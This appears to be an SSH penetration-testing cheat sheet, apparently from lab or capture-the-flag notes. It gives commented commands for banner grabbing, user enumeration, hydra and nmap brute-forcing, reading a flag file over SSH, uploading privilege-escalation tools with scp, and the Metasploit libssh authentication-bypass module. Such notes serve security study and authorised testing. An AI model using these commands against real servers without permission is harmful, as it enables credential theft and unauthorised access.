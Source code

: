 # SSH

**SSH  (Secure Shell)**  
**Description**: SSH (Secure Shell) is a protocol used for secure remote login and other secure network services over an insecure network
**Ports**: TCP 22
**Known Vulnerabilities**: Weak credentials (bruteforce), CVE-2018-10933 (libssh authentication bypass), Old OpenSSH vulnerabilities (user enumeration, remote code execution), Misconfigured "none" authentication, Trust relationships (keys without passwords)

<br>

# Banner Grabbing / Initial Check

```shell
nc <target_IP> 22
# Opens a raw TCP connection to port 22 to manually grab the SSH banner and check if the service is alive.

ssh <username>@<target_IP>
# Attempts to initiate an SSH connection using the specified username.

scp <file> david@<target>:"C:\\Users\\david\\"
# Securely copies the file to the remote Windows target's David user folder using SCP.
# Useful for uploading privilege escalation tools during post-exploitation.
```

<br>

# SSH Enumeration

```shell
use auxiliary/scanner/ssh/ssh_version
# Retrieves the SSH server version and banner information.

use auxiliary/scanner/ssh/ssh_enumusers
# Attempts to enumerate valid SSH usernames via timing-based or response-based analysis.

nmap -p 22 --script ssh-enum-algos <target_IP>
# Lists supported SSH encryption algorithms (key exchange, MAC, etc.).

nmap -p 22 --script ssh-hostkey --script-args ssh_hostkey=full <target_IP>
# Displays full SSH host key information, useful for fingerprinting and MITM detection.

nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student" <target_IP>
# Checks which authentication methods are allowed for the specified user (e.g., none, password, publickey).

nmap -p 22 --script ssh-brute --script-args userdb=/root/users <target_IP>
# Performs SSH brute-force attacks using a list of usernames.

nmap -p 22 --script ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,ssh-run.username=student,ssh-run.password=" <target_IP>
# Attempts to run a command over SSH using provided credentials.
```

<br>

# SSH Brute-force Login

```shell
hydra -L <user_wordlists> -P <pass_wordlist> -t 4 <target_IP> ssh
# Performs a brute-force attack on SSH using lists of usernames and passwords with 4 parallel threads.

use auxiliary/scanner/ssh/ssh_login
# Attempts SSH login with provided username and password combinations to identify valid credentials.
```

<br>

# Exploiting SSH Vulnerabilities

```shell
use auxiliary/scanner/ssh/libssh_auth_bypass
# Scans for systems vulnerable to the libssh authentication bypass (CVE-2018-10933).
# Allows login without credentials if the server is improperly configured.
set SPAWN_PTY true # Spawn a pseudo-terminal upon successful login
```

